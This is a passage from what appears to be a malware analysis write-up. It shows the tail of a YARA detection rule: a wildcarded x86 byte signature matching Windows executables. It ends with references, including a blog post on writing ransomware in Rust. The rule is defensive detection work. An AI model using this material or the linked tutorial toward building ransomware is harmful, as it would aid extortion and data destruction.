			?? 50 57 6A ?? 6A ?? FF 75 ?? FF 75 ?? FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 68 
			?? ?? ?? ?? E8 ?? ?? ?? ?? 8B 45 ?? 83 C4 ?? 85 C0 74 ?? 50 FF 15 ?? ?? ?? ?? 85 C0 
			0F 84 ?? ?? ?? ?? 89 75 ?? 6A ?? 8D 45 ?? 50 6A ?? 8D 45 ?? 50 53 FF 15 ?? ?? ?? ?? 
			85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 83 C4 ?? 8D 45 ?? 6A ?? 50 FF 
			75 ?? 57 53 FF 15 ?? ?? ?? ?? 85 C0 0F 84 ?? ?? ?? ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 
			83 C4 ?? 57 E8 ?? ?? ?? ?? 83 C4 ?? 68 ?? ?? ?? ?? E8 ?? ?? ?? ?? 8B F0 83 C4 ?? 85 
			F6 74 ?? 8B 7D ?? 32 DB 6A ?? 8D 45 ?? 50 68 ?? ?? ?? ?? 56 FF 75 ?? FF 15 ?? ?? ?? 
			?? 85 C0 74 ?? 81 7D ?? ?? ?? ?? ?? B8 ?? ?? ?? ?? 68 ?? ?? ?? ?? 0F B6 DB 0F 42 D8 
			8D 45 ?? 50 56 6A ?? 0F B6 C3 50 6A ?? FF 75 ?? FF 15 ?? ?? ?? ?? 85 C0 74 ?? 6A ?? 
			8D 45 ?? 50 FF 75 ?? 56 57 FF 15 ?? ?? ?? ?? 85 C0 74 ?? 84 DB 74 ?? C6 45 ?? ?? 8B 
			DF 83 7D ?? ?? 8B 3D ?? ?? ?? ?? 74 ?? 8B 45 ?? 50 FF D7 85 DB 74 ?? 6A ?? E8 ?? ?? 
			?? ?? 83 C4 ?? 50 E8 ?? ?? ?? ?? 83 C4 ?? 6A ?? 6A ?? 68 ?? ?? ?? ?? 53 FF 15 ?? ?? 
			?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? FF 15 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 
			C7 05 ?? ?? ?? ?? ?? ?? ?? ?? C7 05 ?? ?? ?? ?? ?? ?? ?? ?? C7 05 ?? ?? ?? ?? ?? ?? 
			?? ?? FF 15 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 68 ?? ?? ?? ?? 53 FF 15 ?? ?? 
			?? ?? 53 FF D7 
		}

	condition:
		uint16(0) == 0x5a4d and all of them
}
```

# References

 - https://twitter.com/pcrisk/status/1608381741139652608
 - https://chuongdong.com/malware%20development/2020/06/15/rust-ransomware2/ (good resource to learn about the basic)